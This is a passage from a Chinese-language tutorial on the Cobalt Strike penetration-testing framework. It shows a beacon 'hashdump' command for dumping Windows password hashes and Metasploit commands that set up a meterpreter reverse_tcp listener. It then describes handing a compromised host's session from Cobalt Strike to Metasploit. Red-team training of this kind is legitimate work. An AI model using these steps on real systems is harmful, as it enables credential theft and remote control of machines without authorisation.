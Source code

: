```
beacon> hashdump

```

![Alt text](http://drops.javaweb.org/uploads/images/d303b963bc18993164cfa0cc92631c9791bfb54d.jpg)

0x06 与msf联动
=====

cobalt strike3.0 不再使用Metasploit框架而作为一个独立的平台使用，那么怎么通过cobalt strike获取到meterpreter呢，别担心，可以做到的。 首先我们使用msf的reverse_tcp开启监听模式：

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.74.1 
lhost => 192.168.74.1
msf exploit(handler) > set lport 5555
lport => 5555
msf exploit(handler) > exploit -j

```

之后使用Cobalt Strike创建一个windows/foreign/reverse_tcp Listener：

![Alt text](http://drops.javaweb.org/uploads/images/79d8a225afef4733753ddcee002e360fc196db78.jpg)

其中ip为msf的ip地址，端口为msf所监听的端口。  
然后选中计算机，右键->Spawn:

![Alt text](http://drops.javaweb.org/uploads/images/ebe489b2b7bc583befdb19fdd82e2ed33127cec8.jpg)

选择刚刚创建的监听器：

![Alt text](http://drops.javaweb.org/uploads/images/9c2510cd0a2e446884b17cf8967224f1da9b1271.jpg)

可以看到成功获取了meterpreter回话：

![Alt text](http://drops.javaweb.org/uploads/images/90637e9541ccf6008a780473bba4fbe9ef6ecc76.jpg)

0x07 小结
=====

此次测试使用`windows/beacon_http/reverse_http`来进行，具体DNS的监听器请参考luom所写[Cobalt Strike 之团队服务器的搭建与DNS通讯演示](http://drops.wooyun.org/tools/1475)，本篇文章只是介绍了Cobalt Strike的部分功能，如有错误，请各位大牛指正，关于Cobalt Strike其他的功能小伙伴们可以自己研究，如果可能的话，我也会对其进行补充。希望对各位小伙伴有用。

本文由evi1cg原创并首发于乌云drops，转载请注明
